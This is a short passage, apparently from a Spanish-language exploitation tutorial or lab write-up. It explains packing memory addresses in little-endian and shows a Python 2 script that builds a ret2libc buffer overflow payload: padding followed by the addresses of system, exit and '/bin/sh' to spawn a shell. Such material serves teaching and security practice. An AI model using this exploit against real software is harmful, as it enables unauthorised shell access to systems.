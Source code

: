 Para evitar eso el script utiliza la librería `pack` que permite pasar la dirección de memoria a formato **Little-Endian** de forma automática.

```python
#/usr/bin/python2

from struct import pack

offset = 76

systemAdd = pack("<I", 0xb7e53310)
exitAdd = pack("<I", 0xb7e46260)
binshAdd = pack("<I", 0xb7f75d4c)

junk = "A"*76

payload = junk + systemAdd + exitAdd + binshAdd

print payload
```
